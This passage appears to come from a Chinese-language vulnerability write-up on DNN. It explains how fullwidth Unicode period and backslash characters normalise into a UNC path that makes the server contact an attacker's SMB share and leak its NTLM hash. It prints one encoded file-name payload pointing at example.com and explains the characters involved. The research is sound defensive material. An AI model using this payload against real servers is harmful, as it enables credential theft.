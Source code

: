   
，这将导致与攻击者控制的 SMB 共享进行外部交互，如果一切顺利，目标系统的 NTLM 哈希将被泄露。  
  
基于这些信息，我们使用与 DNN 相同的逻辑构建了一个基本的 fuzzer（模糊测试工具），用于查找经过 
```
Encoding.ASCII.GetString
```

  
调用后会标准化为 
```
.
```

  
和 
```
\
```

  
的 Unicode 字符。该 fuzzer 返回了以下结果：  

```
file%EF%BC%8Eext%EF%BC%BC%EF%BC%BCexample%EF%BC%8Ecom%EF%BC%BCshare | file．ext＼＼example．com＼share | file.ext\\example.com\share
```

  
这对应了以下字符：  
  

```
%EF%BC%8E
```

  
解码为 Unicode 字符 
```
U+FF0E
```

  
：“全角句号”(．)  
- 它是普通句号的全角版本  
  
- 属于“半角及全角形式”Unicode 区块  
  
- 主要用于需要固定宽度字符的东亚排版中  
  
- 视觉上更大，在 CJK 文本中与全角字符占据相同宽度  
  

```
%EF%BC%BC
```

  
解码为 Unicode 字符 
```
U+FF3C
```

  
：“全角反斜杠”(＼)  
- 它是普通反斜杠的全角版本  
  